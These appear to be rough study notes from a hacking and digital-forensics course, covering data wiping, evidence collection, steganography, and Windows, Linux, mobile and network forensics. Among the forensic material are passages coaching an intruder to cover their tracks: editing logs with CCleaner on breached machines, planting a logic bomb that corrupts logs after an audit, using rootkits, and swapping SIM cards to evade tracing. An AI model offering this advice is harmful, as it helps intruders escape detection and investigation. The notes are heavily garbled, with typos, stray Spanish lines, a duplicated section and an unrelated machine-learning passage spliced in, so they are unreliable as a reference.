	  Wash, Rinse, Repeat

	  Sanitizing media is inexpensive and provides secure destruction of sensitive
	  data. You can eradicate data, wiping those digits off the face of the earth
	  using open source software. One of the simplest methods is to encrypt your
	  media using True Crypt. Once the entire physical chunk of storage is
	  encrypted, it is now somewhat sage to toss that hardware away. The logic is
	  that the entire data image cannot be decrypted unless you provide the
	  passphrase. Pretty simple, right? If those eighty-give agents get their hands
	  on your old media, it is useless to them since you are the only persona who
	  can unclock the data. If another person obtains your old media, they will
	  have to reformat and repartition it before it can be used.

	  There are roughly two standards for proper media destruction. THe first one
	  is US DOD 5220.22-M and the other is the Gutmann algorithm. DOD 5220.22 is a
	  US National Indultrial Security Program Operating Manualthat provides
	  instructoin on destruction of data. The U.S. Department of Defense like to
	  destroy things too, so they only authorize complete destructino as a means to
	  remove data.

	  The Gutmann algorithm, named after Dr. Peter Gutmann and Colin Plumb, gives a
	  little more latitude on physical annihilation of hardware. The algorithm
	  requires the media to be owerwritten thirty-five times in a manufacture
	  specific patter. Different drives require different overwrite patterns.
	  ALthough this method is an outstanding researched backed technique, it has
	  been outdated due to the size of newer drives and built-in controller
	  settings.

	  More Software Tools:

	  Withing the open source community, there are some great software tools that
	  will make your data impossible to recover. THe software will not damage your
	  media but will make the data on it unrepairable. When running the software
	  you press the "start" button, don't expect to ever see that data again. 

	  Boot and Nuke:

	  http://www.Dban.org

	  Boot and Nuke comes as an ISO image that you brun to a CD and bot your syste
	  of it. ONce the software is up and running, you just select which drive you
	  want sanitized (nuked). Dban is an industry stanard for bulk data destruction
	  and emergency uses. Once Dban has been used on a drive, there is no forensic
	  recovery possible.

	  Eraser

	  Strictly made for Windows, formats and writes several times in a pattern.

	  Sderase

	  SD is a newcomer to disk wiping. US DOD 5220.22-M mandates that the only
	  acceptable method for media and data removal is physical destruction fof the
	  media. WE have yet to see any software that can perform physical damage.

	  InSSider is also a way of analizing networks.

	  Wifi commander es usado en windows para analizar redes.

	  In networking there are two types of devices. The first deice is basically a
	  "dumb" device, which means that the device doesn't keep a log of activities.
	  These devices are common switches, hubs, bridges, and so forth. THey just do
	  whatever it is they were designed to do.

	  On the other side, we have "intelligent" devices that do keep logs of cerain
	  activities and can invoke decisions based on the filters and configuration
	  that are installed. THese devices fall into the category of firewalls,
	  routers, range extenders, servers, and other network hardware that keeps
	  track of data flow. These are the devices that you will need to pay attention
	  to because they are the ones that will monitor, record, and possibly disrupt
	  your hack. These network roadblocks are covered in depth at other HHS
	  lessons.

	  You need to know how to deal with these devices to cover your tracks and if
	  needed, lead those eight-five agents somewhere else. In your plagging, it
	  might help to work backwards on a timelines. This allows you to set the
	  amount of time you will be in that network and minimize the changes of you
	  being caught by controlling your exposure time.

	  You will need to consider multiple ways to properly cover your tracks, before
	  you exit the target network. If you just depend on a single method, such as
	  erasing all log files, you are leaving yourself open to other tracking
	  methods. Erasing log files may sound like a super idea but what happends if
	  there are hidden redundant logs? Oopx. We need to choose several courses of
	  action that complement each other but do not interfere with your overall
	  plans. Consider these points from the perspective of the investigator - and
	  that of the perpetrator.

	  Planting logic bobs have been used in the past by outsourced vendors who
	  haven't been paid, angry admins, and ransom-minded folks. Each of those
	  examples place logic bombs where maximun amage to data will occur. ompete
	  network data destruction is not a great idea if you want to keep a low
	  profile after a network breech.

	  A logic bomb that will simply delete or corrupt log files if triggered by an
	  audit within so many days (five) or hours after your exit, would work well to
	  cover your tracks and not alarm too many people.

	  Ccleaner, a free windows based program that has consistently performed well
	  for home and commercial users. With this 332KB utility, you can select which
	  log files you want to delete or edit on any machine you have admin access to.
	  You can even clear your browser history, erasing your own tracks once your
	  job is complete. Ccleaner will try to make a system restore point before it
	  alters anything. Your two choises are to not allow a restore point or look
	  for a file in the root directory labeled "cc_20110928_23232" or something
	  like that. Remove and delete that file before leaving, even if that file is
	  on your own drive.

	  oot kits hide activity and is valuable for Linux-based servers that do not
	  have many security holes to use.

	  Like any science, digital forensics relies on well-defined methods, which are
	  basically concerned with keeping evidence intact. Consider this logic: if
	  you've lost control of your evidence, even for a minute, it's not evidence
	  any more - it may have been altered.

	  Data files can be altered without seeming so. It's easy to change the date,
	  check sum, and last access dates after someone has edited a file or a log.
	  One of the forensic investigator's duties is to prove that the evidence
	  collected has not been altered in any way. Basically, you will need to prove
	  that nothing has happened to that data while it was collected, analyzed, in
	  custody and at all times.

	  This is why it is important to use proven procedures to collect, inspect, and
	  handle all data. One simple mistake could render all your hard work
	  worthless. This is where a good technique comes into play. By conducting each
	  investigator in the same manner and using the same process to document your
	  actions, you can prove that nothing has tampered with your evidence.

	  Digital Forensic Methodology:

	  Digital Forensics is a branch of criminology, so it's all about a procedural
	  collection of legally useful evidence. This means that you are only looking
	  for evidence that matches the cimre, not poking around just because you can.

	  1. Obtain Search Warramt
	  2. Evaluate and Secure the scene
	  3. Collect the Evidente
	  4. Secure the Evidence
	  5. Acquire Data
	  6. Analyze Data
	  7. Assess Evidence and Case
	  8. Prepare the Final Report
	  9. Testify in the court as an Expert Witness.

	  Digital Forensics Process

	  When you're investigating a computer crime, you need to base your work on a
	  process, such as a policy, procedures, and checklists. Your forensic process
	  must be repeatable and hold up to scrutiny by other forensic experts. You
	  should develop an investigative process that requires constant documentation
	  of everything action that evidence goes through. If it isn't documented, it
	  didn't happen.

	  An example of this process is:

	  1. Identification of evidence (must be documented)
	  2. Collection of evidence (Must be documented in Chain of Custody)
	  3. Preservation of evidence (Must be documented in Chain of Custody)
	  4. Analysis or Interpretation (of course, must be documented)
	  5. Communication of your findings and documentation.

	  Probably the most critical single document will be the Chain of Custody
	  documents, which should state exactly what has been taken as evidence, by
	  whom, and who has subsequent custody. Lose custody of your evidence, even for
	  a few minutes, and it's probably worthless now.

	  www.securitydistro.com

	  The most common digital forensics/security testing open source or free
	  software is in collection of tools such as:

	  - Sleuthkit
	  - Katana (usb)
	  - CAINE
	  - DEFT (linux)
	  - Helix (e-fence)
	  - UNetBootin

	  netsh is a nice command to create networks.

	  Data Media Analysis:

	  Computer forensics investigators use various software tools for analyzing and
	  recovering data on various forms of media. There are two basic reasons to
	  conduct a forensic analysis: to reconstruct an attack after it occurred, and
	  to examine a device that may have been used to carry out a crime.

	  The first step before proceeding with any type of data analyze is to make an
	  exact image of the evidence and to only work with that image. The software
	  tools mentioned earlier allow investigators to perform the following tasks
	  and more:

	  - Search for text on media devices in file space, slack space, and
	    unallocated space.

	  - Find and recover data from files that have been deleted or hidden

	  - Find data in encrypted files

	  - Repair FAT (FAT16, FAT32, eFAT) partition tables and boot records

	  - Recover data from damaged NTFS partition (Often Linux can do this when Windows
	  can't)

	  - Joined and split files

	  - Analyze and compare files

	  - Clone evices that hold data

	  - Make data images and backups

	  - Erase confidential file securely

	  - Efit file using a hex editor (*what is a hex editor?*)

	  - Alter file attributes or remove restritive permissions (read or write only)

	  Event time is usually crucial, so the offset between the time of the system
	  from which evidence has been taken and atomic time should be recorder (don't
	  forget the timezone!). Tipically, this is done AFTER evidence has been
	  secured since it involves starting the system.

	  EXIF Data:

	  Digital photos are encoded with metadata known as EXIF or Exchangeable File
	  Image File Format. The original idea of using EXIF was to offer photographers
	  precise data on each photo, such as shutter speed, color balance, and time
	  and date of the photo. THe amazing array of information includes even more
	  additional data if the camera has a GPS activated, including location
	  services.

	  Most of the cameras that input this tracking data are cellphones. Cell phone
	  cameras include in the EXIF, personal data about the users name and if the
	  phones GPDD is operating, the EXIF will provide the location where the photo
	  was taken.

	  Granted, all this information can be spoofed however, few people know about
	  this metadata in the first place. One picture posted in social media sight
	  can be enough to locate your suspect.

	  Imaging Toold:

	  Just as with hard disks, any data storage media that could be evidence should
	  be imaged and then stored, so your analysis work is only done on the image.
	  ou never want to work directly with the original evidence because doing so
	  could alter the information on that media. Each of the forensic software
	  collections mentioned above can create an exact image of most foms of media.
	  If your forensic lab computer can read the media, those software tools can
	  image it.

	  Use *hashing* techniques to ensure that the binary image is an exact
	  bit-for-bit copy of the original. Take a hash of the original. Create the
	  image, and then take a hash of the image. If the two hashes are the same, you
	  have an identical copy. This should be performed by the same software we
	  discussed earlier. It's no use to work on an image that isn't the exact same
	  as the original evidence.

	  Booting is the process by which a small program actually initializes the
	  operating system installed on a computer or on the boting device. Part of
	  this process involves looking into the boot sector to find out where the
	  operating system is. USB drives can become a boot device as can CD/DVD, ZIP
	  drives, flash media cards, and network interface card (using PXE).

	  A "live" CD/DVD/USB or other media means the device can boot up the computer.
	  As long as the computer BIOS allows or booting from other media, this
	  bootable media can load all sorts of operating systems including virtual
	  machines and dual booting.

	  The ability to boot from several types of media can allow a suspect to boot a
	  computer with their own operating system and store all their evidence on that
	  same device. This form of boot-up would not leave any trace of activity on
	  the suspect's computer and would make your job all that much more difficult.

	  Deleted ata:

	  A killer usually wants to get rid of the dead body and the weapong they used
	  as quickly as possible after the crime. The killer wants to destroy any
	  evidente that would link them to the murder. A computer crime suspect will
	  want to do the exact same thing. Digital evidence can be removed easier and
	  quicker if the suspect knows what they are doing. To delete traces of old
	  files, Linux uses the command dd.

	  dd if=/dev/zero of=/home/filename

	  synch (sync)

	  rm /home/filename

	  sych

	  To delete files and remove traces of those files in Windows:

	  1. Using Explorer, select the files or flders and hit the "delete" key.

	  2. Clear all files in Temp directory or use software like CCleaner.

	  3. Once the files are deleted, select the Recycle Bin.

	  4. Right click on the Recycle Bin and select "Empty Recycle Bin."

	  5. Create a new Restore Point under "Systems" and delete the older Restore
	     Points.

	  6. Reboot.

	  Ccleaner lets you select which log files you want to delete or edit on any
	  achine you have admin access to. A suspect can even clear their browser
	  history, erasing their own tracks once their job is complete. Ccleaner will
	  try to make a system restore point before it alters anything. Your two
	  choises are to not allow a restore point or look for a file in the root
	  directory labeled "cc_20110928_203957" or something like that. A suspect will
	  remove and delete that file before leaving, even i that file is on a portable
	  drive.

	  Formatting Media:

	  Most media needs to be formatted before it can be used for a particular
	  operating system. As a rule of thumb, formatting destroys all data that was
	  previosly on that media. If you come accross a hard drive or other media that
	  was recently formatted. It may contain evidence that the suspect wants to
	  remove. With the software tools listed earlier, you have the capabilities to
	  recover files and folder from that media.

	  There are programs out there that will format the media, write random
	  information on the new formatteddrive, reformat and continues this process as
	  many times as you wish. Under these extreme conditions, recoverint the
	  original files and folders will be quite difficult. *The key to recovering
	  anything is to identify this event and media as quickly as possible*.

	  Precautions While Collectin Evidence from a Data Storage Device:

	  There are the rules for when you're on the opposite side: when it comes to
	  collecting media for forensic examination. You will not need a hammer or a
	  drill. In this situation, you will need to be careful and non-destructive.

	  - Hold the media only by outer edges and avoid scratches or dropping it.

	  - Use water-based markers for writing on evidence.

	  - Place digital evidence devices in a waterproof and labeled bag.

	  - Take special precautions with storage media that are cracked or damaged.

	  - Do not rinse media with water to remove surface dirt, possible drug
	    contamination, grase, an/or oils.

	  - Do not use any type of cleaner based on organic or petroleum solvents near
	    the evidence.

	  - Create an image of the date on the media and work with the image to prevent
	    damage to the original data.

	  Steganography A look at security controversy

	  The topic of steganography ives you a change to look at how differently
	  security experts can think. It is a totally workable means to secretly
	  transfer data; it's just never been found in the wild. Is anybody using this
	  stuff?.

	  When you're performing digital forensic investigatins, it is not enough to
	  simply recover photos, documents, videos, audio and VoIP packet data
	  contained on the suspect media without also testing that evidence for
	  potential hidden evidence such as steganogaphy. While it may appear to be a
	  benign picture, that picture may contain a plethora of hidden information.

	  Steganography, often referred to as stego, is the ability to hide information
	  within transmissions without ayone being able to notice any change or
	  modification to the original host without the use of special software tools.
	  For example, a picture containing a hidden stego message looks identical to
	  the casual viewer and gives no obvious indications that any modifications
	  have been made to the original. While similar to encryption in that stego is
	  used to hide objects and data, making it unnoticeable and unreadable, stego
	  but should not be confused with cryptography. Steganography embeds the
	  information in such things as documents or images while cryptography encrypts
	  the information using a cypher or encryption key that is used to scramble and
	  later unscramble the message.

	  In a recent case, stego was used, and detected by the FBI. Ten stego
	  criminals were then released to Russia s part of a modern day spy swap. 

	  Steganography uses many different techniques from data insertion to
	  algorightmic but to make the concept easier to understand, let's just say
	  that steganography inserts data into a host file in a manner that does not
	  readily change the host file that can be distributed to other persons who can
	  then reconstruct the hidden message(s) contained in that host file. While
	  graphics, bitmap images in particular are the most used steganography hosts,
	  the host can be audio files, videos, or documents as well.

	  There are more than 600 known stego creation detection tools available on the
	  internet. But even with all the tools, a person who is trained to use a hex
	  editor can readily detect steganography "infected" hosts if they have access
	  to a library of clean original images, documents, videos and audio files with
	  which to compare the suspect hosts against. Steganography detection is also
	  aided with the usage of Steganography signature libraries similar to
	  anti-virus definition detection as well as the comparison of steganography
	  based hash values. Steganography hash values are available at sites such as
	  http://www.hashkeeper.org or http://www.stegoarchive.com

	  A few examples of common steganography creation tools include S-Toolsv4, JP
	  Hide-and-Seek, JStegShell, ImageHide, ES Stego and Dounds Stegonagraphy.

	  Whereas StegDetect and Stegbreak are tools used to help detect steganography
	  infected hosts. 

	  http://Stegano.net

	  Read: Dound's Steganography

	  Windows Forensics:

	  Windows is constantly moving files aorund and modifying them, even the ones
	  you are looking for.

	  DNS in wireshark shows what pages were navigated.

	  We'll start this messy affair by covering the different types of volatile and
	  non volatile information an investigator can collect from a Windows system.
	  This section goes into more details about grabbing and analyzing data in
	  memory, the registry, events, and files.

	  Volatile Information:

	  Information that is lost when a system is powered down or otherwise loses
	  power. Volatile information exist in physical memory or RAM, and consists of
	  information about processes, network connections, open files, clipboard
	  contents, etc. This information describes the state of the system at a
	  particular point in time.

	  When performing a live analysis of a computer, one of the first things
	  investigators should collect is the content of RAM. By collecting the
	  contents of RAM first, investigators minimize the impact of their data
	  collection activity on the contents of RAM.

	  These are some of the specific types of volatile information that
	  investigator should collect:

	  - System time
	  - Open files
	  - Logged-on user(s)
	  - Network Connections  
	  - Process information
	  - Process-to-port mapping
	  - Process memory
	  - Network status
	  - Clipboard contents
	  - Service/driver information
	  - Command history
	  - Mapped drives, shares

	  Tools for Collecting Volatile Information On Windows:

	  To collect volatile information from a Windows system, you could use the
	  following free software tools, which belong to the Sysinternals suite provded
	  by Microsoft, you can ownload it for free.

	  After downloading it, you should install it on the root (C:\) of your
	  dforensic workstation hard disk. You'll use these commands (unsurprisingly)
	  in the command line interface, like this:

	  psloggedon

	  This sysinternals program enables you to see who is logged on the system
	  locally as well as those users who are logged on remotely.

	  time /t command

	  Use this command to see the system actual time. Windows shows file time in
	  UTC which is also GMT (Universal Time). The file time is shown down to the
	  100th nanosecond in a hexadecimal 8 bit format. Windows system time is shown
	  in 32 bit, displaying month, day, year, weekday, hour, minute, second and
	  millisecond.

	  net session

	  This command shows not only the names of the users accessing the system via a
	  remote logon session but also the IP address and the types of client from
	  which they are accessing the system.

	  openfiles

	  This command lists user logged in to a system remotely; investigators should
	  also see what files they have open; if any. This command is used to list or
	  disconnect all files and folders that are open on a system.

	  psfile

	  This program also belongs to the Sysinternals suite discussed above. It's a
	  command line program that shows a list of files on a system that are open
	  remotely. It allows a user to close open files either by name or by file
	  identifier.

	  net file

	  This command display the names of all open shared files on a system and the
	  number of files locks, and closes individual shared files and removes file
	  locks.

	  You might want to look for deleted files is in the thumbs preview database
	  for windows. Look for a file listed as thumbs.db_. This will show you all the
	  thumbnail images of files viewer in explorer as thumbnails.

	  Non-volatile Information:

	  Non-volatile information is kept on asecondary storage devices and persists
	  after a system is powered down. It's not perishable and can be collecte after
	  the volatile information is collecte. The following are some of the specifit
	  type of non-volatile information that investigators should collect:

	  - Hidden files
	  - Slack space
	  - Swap files
	  - Index.dat files
	  - Meta Data
	  - Hidden ADS (Alternate Data Streams)
	  - Windows Search Index
	  - Unallocated clusters
	  - Unused partitions
	  - Registry settings
	  - Connected devices
	  - Event logs

	  Anytime an object (A file) is acted upon by another object (an intruder),
	  there will be residual effects. The effects might not be easy to locate or
	  detect, but those actions (of deleting or modifying) will cause some other
	  results elsewhere. To reduce detectable actions, a professional hacker will
	  use the tools that are already built into the system. They won't introduce
	  new software, instead they will use the system tools in a manner that seems
	  normal.

	  Linux Slack

	  Linux file systems do contain slack space, just as Windows does. The slack
	  space is mch smaller, roughly 4K per block. This means that a suspect can
	  ohide about 4KB of data in a small file block. The same techniques we
	  discussed in Windows slack space can be applied to Linux slack space. This
	  space is undetectable by filesystem and disk usage tools. Then data is
	  removed or deleted, the slack space will remain wth the contents of any
	  hidden data.

	  Silly String

	  Text strings in Linux are fairly easy to search for and locate using the
	  command:

	  /dev/hdaX | grep 'text ou want to look for'

	  Depending on the size of the media, this search can take quite a while
	  because it will look for that text everywhere in that partition. You will not
	  want to use a hex editor, since this will take even longer to perform. A hex
	  editor can be useful to determine the contents of that media, though.

	  Grep

	  Grep is an immensely powerful Linux tool. It is used to find certain lines
	  within a file. This allows you to quickly find files that contain certain
	  things within a directory or file system. It also allows for searching on
	  regular expressions. There are search patterns that allow you to specify
	  criteria that search much match. For example: finding all strings in the
	  dictionary that start with "s" and finish with "t" to help with doing a
	  crossword.

	  grep ^s.*t$ /usr/share/dict/words

	  More Command-line Tools:

	  THe "Live" forensic tools we discussed earlier are complete Linux forensic
	  toolkits. Linux itself has a number of simple utilities for imaging and basic
	  disk analysis, including the following:

	  dd: The dd command can copy data from any disk that Linux can mount and
	  access.

	  This command can make a bit-stream disk-to-disk file, disk-to-image file,
	  block-to-block copy/block-to-file copy.

	  sfdisk and fdisk: Displays the disk structure.

	  grep: Searches files for instances of an expression or pattern.

	  md5sum and sha1sum: Creates and stores an MD5 or SHA-1 hash of a file or list
	  of files (including devices).

	  file: Read file header information to tell its type, regardless of name or
	  extension.

	  xxd: A command-line hex dump tool

	  ghex and khexedit: GNome and KDE hex editors

	Finding a Haystack in a Needle:

	Open source forensic software includes powerful search tools that let you
	search for many combinations and permutations of factors for deep data
	searching. THere is no need to buy expensive commercial tools, which is the
	wonderful part of using Open Source Software. Linux provides you with plenty
	of scope to construct similar tools using standard utilities. The following
	text details the use of find, grep and string, and then describes the use of
	the pipe to combine them.

	Encryption, Decryption and File Formats

	Many of the files that you will come across will not be immediately readable.
	Most programs have their own propietary file formats, while others use
	standard formats - for example the standatd picture formats - gid, jpg, png,
	etc. Linux provides an excellent utility to help you to determine what a given
	file is. Remember the file command from above?

	Command Line Switch - Effect

	-k                    Don't stop at the first match, keep going
   
	-L                    Follow symbolic Links

	-z                    Attempt to look inside compressed files

	These switches let you try to read a file. THere are a number of file
	conversion utilities available to you under linux, and even more available on
	the internet, as well as a number of file viewers for various formats.
	Sometimes it may require more than one step to get to a place where you can
	really work with data - try to think laterally!.

	Occasionally, you will cme across files which have been encrypted or password
	protected. The complicatoin that this presents varies, from encryption that is
	easily broken to stuff that would even give the best decryption professionals
	a headache. It pays to examine the area surrounding the computer that you are
	dealing with. People aren't very good at remembering passwords; they may well
	be written down somewhere nearby.

	Common choises for passwords also involve: pets, relatives, dates, telephone
	numbers, car registrations, and other simple combinations. People are also
	reluctant to use more than one or two passwords for everything, so if you can
	reverse engineer a password on one file or application, try it on the others.
	It is highly likely to be the same. 

	Examples of Digital Forensics at Work:

	Based on the DNS of a network, one can know what the ISP is
  
	Morgan Stanley: In a FLorida court case, Morgan Stanley repeatedly failed to
	turn over data related to a fraud suit against them. 1423 backup tapes were
	conecaled by MS that contained emails detailing the fraud. A fired MS
	technician revealed to the court that those tapes existed and many other tapes
	were deliberatly mislabeled. Forensic examination confirmed this intentional
	fraud. 

	David Kernell: The defendant hacked into Sarah Palin's Yahoo email account.
	Before the FBI arrived to investigate this crime, Kernell uninstalled his web
	browser and fragmented his hard drive. The government was able to provide
	sufficient forensic and testimonial evidence of his crime to convict him on a
	number of counts.

	Albers Gonzalez: ONe of the longest convictions ever handed down for acomputer
	crime was convicted of stealing 90 million credit card and debit card numbers.
	The defendant ran a gang of cyber-thieves over several years and bought a
	yacht for himself using the stolen money. Teams of digital forensic examiners
	were called in to crack the case and provide evidence.

	The router is the default gateway by default, lol.

	Mobile Forensics:

	Using mobile communications as a tool in your planning and/or execution of the
	hack can provide you with a completely new set of options. Cell phones use
	several forms of signaling, one is the radio that links your phone to the
	closest antenna receiver, the next is the Bluetooth link that works for
	short-range connections, the GPS signal locator can be used for other
	funciotions, and lastly the phone has digital connection capabilities. We want
	to focus on the digital portion of a cellphone.

	Inside a cell phone is a Subscriber Identification Module (SIM) card that
	identifies your phone to you and your service provider. This SIM card is also
	the same card that stores some of your phone numbers and other text data. This
	card has an onboard microprocessor.

	SIM cards contain a special set of numbers known as International Mobile
	Subscriber Identity (IMSI). The IMSI is the phone number for that device and
	can be thought of as a Machine 

	What is Clustering?:

	In machine learning, we often group examples as a first step to understand a
	subject (Data set) in a machine learning system. Grouping unlabeled examples
	is called clustering.

	An unlabeled example is an example that contains feature sbut no label.
	Unlabeled examples are the input to inference. In semi-supervised and
	unsupervised learning, unlabeled examples are used during training.

	A feature is an input variable used in making predictions

	Predictions are A mode'ls output when provided with an input example.

	An example is one row of a dataset. An example contains one or more features
	and possibly a labe.lwhat is a dataset

	A dataset is a collection of data.

	In machine learning, inference often refers to the process of making
	predictions by aplying the trained model to unlabeled examples. In statustics,
	inference refers to the process of fitting the parameters of a distribution
	conditioned on some observed data.

	As the examples are unlabeled, clustering relies on unsupervised machine
	learning. If the examples are labeled, then clustering becomes classification.

	What are the Uses of Clustering?
	Clustering has a myriad of uses in a variety of industries. Some common
	applications for clustering include the following:

	- Market segmentation

	- Social network analysis

	- Search result grouping

	- Medical imaging

	- Image segmentation

	- Anomaly detection

	After clustering, each cluster is assigned a number called a cluster ID. Now,
	you can condense the entire feature set for an example into its cluster ID:
	Representing a complex example by a simple custer ID makes clustering
	powerful. Extending the idea, custering dara can simplify large datasets.

	Fr example, you can group items by differete features as destrated i the
	following examples:

	- Group stars by brightess.

	- Group organisms by genetic information into a taxonomy.

	- Group documents by topic

	Machine learning systems can then use cluster IDs to simplify the processing
	of large datasets. This, clustering's output serves as feature data for
	downstream ML systems.

	At Google, clustering is used for generalization, data compression, and
	privacy preservation in products such as Youtube videos, Play apps, and Music
	tracks.
  
	Generalization:

	When some examples in a cluster have missing feature data, you can infer the
	missing data from other examples in the cluster.

	For example, Less popular videos can be clustered with more popular videos to
	improve video recommendations.

	Data Compression:

	As discussed, feature data for all examples in a cluster can be replaced by the
	relevant cluster ID. This replacement simplifies the feature data and saves
	storage. THese benefits become significant when scaled to large datasets.
	Further, machine learning systems can use the cluster ID as input instead of
	the entire feature dataset. Reducing the complexity of input data makes the ML
	model simpler and faster to train.

	For example, Feature data for a single Youtuve video can include:

	- Viewer data on location, time, and demographics 

	- Comment data with timestamps, text, and user IDs

	- Video tags

	Clustering Youtuve videos lets you replace this set of features with a singles
	cluster ID, thus compressing your data.

	Privacy Preservation:

	You can preserve privacy by clustering users, and associating user data with
	cluster IDs instead of specific users. To ensure you cannot associate the user
	data with a specific user, the cluster must group a sufficent number of users.

	For examples, Say you want to add the video history for Youtube users to your
	model. Instead of relying on the user ID, you can cluster users and rely on
	the cluster ID instead. Now, your model cannot assosciate the video history
	with a specific user but only with a cluster ID that represents a large group
	of users.


	Mobile Forensics:

	Using moile communications as a tool in your planning and/or execution of the
	hack can provide you with a completely new set of options. Cell phones use
	several forms of signaling, one is the rafdio that links your phone to the
	closest antenna receiver, the next is the Bluetooth link that works for
	short-range connections, the GPS signal locator can be used for other
	functions, and lastly the phone has a digital connection capabilities. We want
	to focus on the digital portion of a cellphone.

	Inside a cell phone is a Subscriber Identification Module (SIM) cad that
	identifies your phone to you and your service provider. THis SIM card is also
	the same card that store of your phone mos semunbers and other text data. This
	card has an onboard microprocessor.

	Sim cards contain a special set of numbers known as International Mobile
	Subscriber Identity (IMSI). THe IMSI is the phone number for that device and
	can be thought of as a Machine Access Code (MAC) address for a celular phone.
	The first set of numbers of a MDN are assigned to the manufacture. SIM card
	editors like the ones available at Dekart will assist you in viewingthis
	number ser. (SIM MANAGER).

	Wireshark en source para que se ponga en número alfabético.

	La puerta de enlace predeterminada normally is 192.168.(network).1

	If you were going to onduct special business on a cell phone that might be
	traced, it is quite possible to have several SIM cards on hard. Changing out
	the cards after each call makes it nearly impossible to trace a cellular call.
	International SIm cards with preloaded calling credits are available in
	Europle, Korea, Japan, and other countries that do not have a cellular
	monopoly as in the United States.

	One point to consider is that cellular devices are tracked from cellular tower
	to tower, even if the device is just on. THis is part of the normal
	communication hand-off to ensure the cellular caller can make a connection
	quicly, at any time. In the near future, towers will track and maintain logs
	of wach cellular device that pass through their zones while communicating.
	This may sound contradictory to the paragraph above, however, the SIm card
	contains the hand-ser identifier. Changing out SIM chips is almost like
	changing out cellular devices.

	Short Message Service (SMS) are stored by each cellular phone carrier for
	several days or none at all. This shows how quicly evidence can disappear and
	timely response is critical. The messages are saved on the user's phone,
	usually on the SIM card or on the external memory card.

	Conect the Blue Wire to the Red Square:

	Another aspect of cellular digital communications is the ability to use Voice
	Over Internet PRotocol (VOIP). This communication tool uses VOIP software to
	create data voice communications between you and another VOIP user, bypassing
	cell phone sage charges. 

	Well, since VOIP is digital and a piece of software, we can encrypt the
	packets if you are using the Android OS. THe advanced Encryption Standard
	(AED) is a block cipher and can provide many levels of security. You will want
	to use the lowest encryption level, since VOIP is already going to be slow
	over a data phone.

	Some Disassembly Required

	Before you attempt to recover any data from a cellphone, turn off the celular
	signal, as in put the phone in "Airplane" mode. Celular providers can disable
	or deletele all data from a device if that device is reported as lost or
	stolen. Don't be that one person who forgets to disable the signal to the
	mother ship.

	Older devices used propietary cabled for charging and transferring data. These
	cables changed from device to device and never seemed to be interchangeable to
	anything. These days, most devices connect using a mini USB cable on one end
	and a standrd USB on the other. Apple products are the exception to this
	standard for "security" reasons.

	Cellular devices can store data in any one of three local areas. These areas
	are: The phone's built-in memory, the SIM card, and the external memory card.
	The good stuff (real evidence) isoften  located on the phone's internal memory
	and on the SIM card. SMS enabled devices often include software for
	"predictive text." Predictive text files can include portions or entire text
	messages that may not be located elsewhere.

	Besides the fact that cellular devices have Bluetooth, data transmission, and
	WiFI communication capabilitites, many are GPS enabled as well. All of these
	signals store information on the phone, the SIM card or on the external memory
	card. Forensic software allows an examination of each type of history,
	including the GPD. If the suspect enabled their GPD, all the waypoints and
	location history can be recovered to provide even more evidente.
	http://www.gpsvisualizer.com/ allows you to upload GPD data and it will create
	maps to show you where that where that data leads.

	Don't forget about the suspect's vehicle GPD as well as the on-board computer.
	Any vehicle built over the past decade has a diagnostic computer that tracks
	speed, fuel consumption, ignition sequence, pls more information that may help
	you solve the case. 

	iDevices: There are some folks have dedicated time and effort into open source
	projects such as IPBackup Analyzer. The purpose of this program is to look at
	data that is backed up on an Iphone and make it readable. One of the unique
	issues with Apple mobile products is the requirement for a back-up passcode.
	THe passcode can be bypassed using software tools, which will allow for
	examination of text messages, phone contacts, picture, video, emails and all
	evidence you might need to examine.

	http://www.nxtbook.com/nxtbooks/evidencetechnology/20120910/#/30

	Phone Software Tools

	Most of the major phone forensic software builders have found a niche market
	that allows them to charge a premium for their tools. There are a few open
	source and free products out there you might want to look into. Like anything
	else, each tool has pro's and con's but, you will need to have a working
	knowledge of several tools to be succesful.

	Oxygen: This software is capable of reading Iphone back ups, even if the data
	is protected by iTunes passwords.

	Bit Pim: This free software has one tiny drawback, the lack of support for
	newer smart phones.

	Sleuth Kit: Cellular forensics, it gives you the same capabilities as many
	commercial products.

	https://viaforensics.com/products/tools/ offers several free links to Android
	OS forensic tools. This site offers a book on Anroid Forensics plus several
	scripts for gathering your own data.

	https://viaforensics.com/iphone-forensics/howto-iphone-forensics-free-andor-open-source-tools-91411.html
	is a tool for forensics on apple.

	If a digital device is evidence in a case, do not turn off the device, this is
	critical if the phone is a pay-as-you-go since there isn't a signed contract
	with a mobile carrier. These phones are difficult to trace because they are
	disposable.

	of course you can't examine nor copy the SIM data without removing the
	battery. This is another reason to keep the cellular device powered by another
	way without relying on the battery. With out luck, the device battery will
	always be just about dead anywats.

	The forensic examination should be done using direct cables from the device
	yto your awesome lab computer. This means that all other communication means
	need to be shut off. Bluetooth, WiFi, GPS , and whatever else has to be turned
	off before an examination can begin. Failute to do so could render the
	evidense useless in a cour of law.

	Network Forensics:

	Network forensics are used to find out where a computer is located and to
	prove whether a particular file was sent from a pacticular computer over a
	network. 

	Firewall Logs

	Who's connecting to you?. The firewall is a utility that can control
	connections between two points in a network. There are many types of
	firewalls. Regardless of the firewall type and job of the firewall, it is the
	firewall logs, which five you the details. By using the logs you can find
	patterns of attacks and abuse to your firewall.

	As with any log file, the integrity of those files are essential. Think of log
	files as a smoking gun. Each file is stamped with time/date and certain
	propert rights. FIrewall logs are consiered "smart" logs because they are
	generated from a device that has perimeters and is not a simple hub or switch
	bos. Each packet is not recorder but each request and connection is recorded.
	You are looking for connections between specific IP addresses or the
	transmission of files between two connections.

	Packet Sniffers

	Packets of data flow through the veins of every networked dvice. SInce there
	are literally milions of packets moving between servers and other devices,
	looking at individual packets had always been thought to be impossible. With
	the increased power of computers and better software technology, we now have
	the capabilities to search through millions of transmitted packets to locate
	those that meet or requirements. We call this technique "packet sniffing."

	Packet sniffers come in all kinds of shapes and sizes but every type must be
	placed between the data flow transmissions. You can't head a conversation if
	you are not with the people who are talking. Packet sniffers can be active
	(looking) or passive (listening). The trick for an intruder is how to gather,
	store, and transmit those packets in your network without getting caught.

	Intrusion Detection Systems (IDS)

	This tempting name is a generic term for anything that can detect, alets, or
	shut down abnormal network activities. Snort is a perfect example of a program
	that can look for abnormal behavior in network traffic. 

	IDS were designed to be the watchdog of network traffic. Each type of IDS
	looks for protocols, signatures, ports and other locations where odd behavior
	might happen. SOme systems deny all and only allow authenticated users
	through, while othe IDS's bait and wait. The IDS's logs are full of wonderful
	details on odd behavior.

	Network Miner is used with Wireshark

	Router and Network Management Logs:

	There are a variety of open source software tools that should be part of any
	network evidence collectors kit, starting with the tried and true Wireshark.
